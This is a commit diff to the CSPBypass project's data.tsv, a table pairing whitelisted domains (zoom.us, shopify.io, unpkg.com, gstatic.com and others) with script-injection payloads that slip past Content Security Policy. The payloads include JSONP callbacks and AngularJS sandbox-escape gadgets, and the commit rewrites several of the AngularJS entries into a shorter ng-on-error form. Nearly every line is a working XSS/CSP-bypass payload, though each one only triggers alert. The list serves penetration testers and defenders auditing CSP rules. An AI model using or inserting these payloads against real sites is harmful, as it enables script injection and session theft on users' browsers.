

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only.

Commit message:
refactor angular.js

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -89,3 +89,3 @@ ipinfo.io	<script src="https://ipinfo.io/?format=jsonp&callback=alert"></script>
 itunes.apple.com	<script src="https://itunes.apple.com/se/rss/toppodcasts/json?callback=alert"></script>
-js-smb.devices.ovoenergy.com	<body ng-app ng-csp><script src="https://js-smb.devices.ovoenergy.com/js-smb.min.js"></script><div ng-app ng-csp><div ng-focus="x=$event;" id=f tabindex=0>foo</div><div ng-repeat="(key, value) in x.view"><div ng-if="key == 'window'">{{ [1].reduce(value.alert, 1); }}</div></div></div></body>
+js-smb.devices.ovoenergy.com	<script src="https://js-smb.devices.ovoenergy.com/js-smb.min.js"></script><div ng-app><img src=x ng-on-error="window=$event.target.ownerDocument.defaultView;window.alert(window.origin);">
 js.hcaptcha.com	<script src="https://js.hcaptcha.com/1/api.js?onload=alert&render=explicit"></script>
@@ -104,3 +104,3 @@ partner.googleadservices.com	<script src="https://partner.googleadservices.com/g
 passport.baidu.com	<script src="https://passport.baidu.com/channel/unicast?callback=alert"></script>
-portal.ayco.com	<body ng-app ng-csp><script src="https://portal.ayco.com/publicBundles/angularjs"></script><input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(1)'></body>
+portal.ayco.com	<script src="https://portal.ayco.com/publicBundles/angularjs"></script><div ng-app><img src=x ng-on-error="window=$event.target.ownerDocument.defaultView;window.alert(window.origin);">
 pixel.mathtag.com	<script src="https://pixel.mathtag.com/u/js?callback=alert(1)"></script>
@@ -128,3 +128,3 @@ srv.carbonads.net	<script src="https://srv.carbonads.net/ads/x.json?callback=ale
 ssl.gstatic.com	<body ng-app ng-csp><script src="//ssl.gstatic.com/fsn/angular_js-bundle1.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
-st3.zoom.us	<body ng-app ng-csp><script src="https://st3.zoom.us/static/6.2.7600/js/lib/angular.min.js"></script><div ng-app ng-csp><div ng-focus="x=$event;" id=f tabindex=0>foo</div><div ng-repeat="(key, value) in x.view"><div ng-if="key == 'window'">{{ [1].reduce(value.alert, 1); }}</div></div></div></body>
+st3.zoom.us	<script src="https://st3.zoom.us/static/6.2.7600/js/lib/angular.min.js"></script><div ng-app><input autofocus ng-focus="window=$event.target.ownerDocument.defaultView;window.alert(window.origin);">
 static.parastorage.com	<body ng-app ng-csp><script src="https://static.parastorage.com/services/third-party/angularjs/1.4.5/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
@@ -136,3 +136,3 @@ tagmanager.google.com	<script src="https://tagmanager.google.com/debug/api/vtinf
 tcr9i.openai.com	<script src="https://tcr9i.openai.com/fc/a/?callback=alert"></script>
-thehive.shopify.io	<body ng-app ng-csp><script src="https://thehive.shopify.io/scripts/vendor.78eed977.js"></script><div ng-app ng-csp><div ng-focus="x=$event;" id=f tabindex=0>foo</div><div ng-repeat="(key, value) in x.view"><div ng-if="key == 'window'">{{ [1].reduce(value.alert, 1); }}</div></div></div></body>
+thehive.shopify.io	<script src="https://thehive.shopify.io/scripts/vendor.78eed977.js"></script><div ng-app><img src=x ng-on-error="window=$event.target.ownerDocument.defaultView;window.alert(window.origin);">
 thiscanbeanything.zendesk.com	<script src="https://thiscanbeanything.zendesk.com/sc/faye/?message=[{%22channel%22:%22%22}]&jsonp=alert"></script>
@@ -144,3 +144,3 @@ uk.indeed.com	<script src="https://uk.indeed.com/m/newjobs?callback=alert"></scr
 ulogin.ru	<script src="https://ulogin.ru/token.php?callback=alert(1337)"></script>
-unpkg.com	<body ng-app ng-csp><script src="https://unpkg.com/angular@1.4.5/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
+unpkg.com	<script src="https://unpkg.com/angular@1.8.3/angular.min.js"></script><div ng-app><img src=x ng-on-error="window=$event.target.ownerDocument.defaultView;window.alert(window.origin);">
 unpkg.com	<script src="https://unpkg.com/hyperscript.org"></script><x _="on load alert(1)">
```
Also changed, not shown: 9 edited cells elsewhere in this file.
